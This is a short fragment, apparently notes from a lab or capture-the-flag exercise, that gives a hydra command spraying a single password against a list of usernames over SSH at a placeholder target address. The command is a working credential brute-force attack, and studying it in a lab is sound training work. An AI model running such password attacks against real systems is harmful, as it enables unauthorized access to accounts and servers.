 List of usernames in text file and one password
```
hydra -L usernames.txt -p 'funnel123#!#' {target_IP} ssh
```
